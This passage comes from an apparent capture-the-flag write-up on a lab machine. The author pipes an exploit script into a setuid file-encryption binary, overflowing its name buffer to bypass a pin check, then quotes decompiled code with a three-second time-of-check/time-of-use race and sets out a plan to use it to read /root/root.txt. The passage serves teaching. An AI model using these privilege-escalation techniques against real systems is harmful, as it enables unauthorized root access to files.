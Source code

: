 This will just print the pin, newline, the overflow to return to `encrypt`, newline, the input file, newline, and output file, newline. I can run that to generate the input needed to encrypt a file:

```

tester@overflow:/opt/file_encrypt$ python3 /tmp/sploit.py /tmp/0xdf /tmp/out | ./file_encrypt 
This is the code 1804289383. Enter the Pin: name: Thanks for checking. You can give your feedback for improvements at developer@overflow.htb
Segmentation fault (core dumped)
tester@overflow:/opt/file_encrypt$ xxd /tmp/out 
00000000: d3fe f7f7 f4bb ecf4 e9f7 ff91            ............

```

In this case I’m doing in one line what I did above, encrypting my file with “Hello world”, and getting the same output.

### Get root Files

#### root.txt

There’s still the check preventing reading of files owned by root:

```

tester@overflow:/opt/file_encrypt$ ./file_encrypt 
This is the code 1804289383. Enter the Pin: -202976456
name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[XUV
Thanks for checking. You can give your feedback for improvements at developer@overflow.htb
Enter Input File: /root/root.txt
Enter Encrypted File: /tmp/root.txt
File /root/root.txt is owned by root

```

To get around this, I’ll take advantage of a time of check/time of use vulnerability here:

```

  if (stat_struct.st_uid == 0) {
    fprintf(stderr,"File %s is owned by root\n",user_infile);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  sleep(3);
  fd_input = fopen(user_infile,"rb");

```

There are three seconds between when the ownership of the file is checked and when the file is opened. To make this exploit reliable, I’ll add my ssh key to tester’s `authorized_keys` file and get three ssh sessions.

I’ll work out of `/tmp/0xdf`. There are some protections in place that make working out of just `/tmp` actually fail.
